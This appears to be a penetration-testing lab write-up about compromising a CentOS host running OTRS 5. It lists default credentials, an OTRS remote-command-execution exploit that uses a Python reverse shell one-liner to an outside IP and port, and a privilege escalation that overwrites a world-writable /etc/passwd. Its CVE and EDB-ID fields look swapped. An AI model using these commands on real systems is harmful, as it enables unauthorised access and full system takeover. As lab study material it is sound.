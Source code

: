 # Summary
# Location
- IP Address: 10.11.1.39
## System Information
- OS: CentOS
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OTRS5
- uri: http://10.11.1.39/otrs/index.pl?
- username:root@localhost
- password:otrs

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

Nginx 1.6.3


http://10.11.1.39/otrs/index.pl

Find ORTS 5

google default credentials: root@localhost:root

/otrs-web/skins/Agent/default/css/thirdparty/ui-theme/jquery-ui.css

# Exploitation
## Exploit 1
- Title: OTRS 5.0.x/6.0.x - Remote Command Execution
- CVE: 43856
- EBD-ID: 2017-16921
- Link: https://www.exploit-db.com/exploits/43853

5. Manipulate form parameters and use "Update" button to save:

"PGP"
-Default: No
-New: Yes

"PGP::Bin"
-Default: /usr/bin/gpg 
-New: <shell command including executables the webserver user has execute permissions for, no options>
-PoC (Reverse Python Shell): /usr/bin/python

"PGP::Options"
-Default: --homedir /opt/otrs/.gnupg/ --batch --no-tty --yes
-New: <any command options>
-PoC (Reverse Python Shell): -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.247",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Exploit 2
privilege escalation
```
sh-4.2$ find / -perm 777 -type f 2>/dev/null
find / -perm 777 -type f 2>/dev/null
/etc/passwd
sh-4.2$ echo root::0:0:root:/root:/bin/bash > /etc/passwd
echo root::0:0:root:/root:/bin/bash > /etc/passwd
sh-4.2$ sudo root
sudo root
sudo: unknown uid 48: who are you?
sh-4.2$ su root
su root
whoami
root
```

find the /etc/passwd file can be write. so just rewrite the root and su root

get the proof


